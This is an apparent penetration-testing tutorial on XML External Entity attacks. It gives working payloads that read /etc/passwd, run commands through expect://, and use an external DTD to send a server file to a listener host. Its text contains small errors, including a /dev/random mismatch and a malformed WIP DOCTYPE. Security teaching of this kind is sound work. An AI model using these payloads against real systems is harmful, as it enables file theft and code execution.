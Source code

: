 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan
* Remote Code Execution

Where do you find it:

* Anywhere where XML is posted.
* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

#### Background XML <a id="background-xml"></a>

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```text
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```text
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

#### Syntax rule <a id="syntax-rule"></a>

* Must have root element
* Must have XML prolog

```text
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

#### Attack <a id="attack"></a>

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```text
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The element can be whatever, it doesn't matter. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

#### Test for it <a id="test-for-it"></a>

* Input is reflected

```text
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```text
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. First you need to set up your own webserver, and then wait for it to connect.

```text
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```

#### Another example <a id="another-example"></a>

Contents of xml.txt

```text
<creds>
    <user>Ed</user>
    <pass>mypass</pass>
</creds>
```

curl -d @xml.txt [http://localhost/xml\\_injectable.php](http://localhost/xml\_injectable.php)

returns

You have logged in as user Ed

Let’s modify the xml.txt file to contain the following code:

```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Now "curl -d @xml.txt [http://localhost/xml\\_injectable.php](http://localhost/xml\_injectable.php)" returns:

```text
You have logged in as user root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

#### Fun with dtd \(WIP\) <a id="fun-with-dtd-wip"></a>

Modified xml

```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY % extentity SYSTEM "http://192.168.1.10:4444/evil.dtd">
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
    %extentity;
    %inception;
    %sendit;
    ]
<
```

#### contents of dtd <a id="contents-of-dtd"></a>

```text
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/inetpub/wwwroot/Views/secret_source.cshtml">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://192.168.1.10:4444/?%stolendata;'>">
```

#### Exfiltrate data through URL <a id="exfiltrate-data-through-url"></a>

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

#### References <a id="references"></a>

[https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

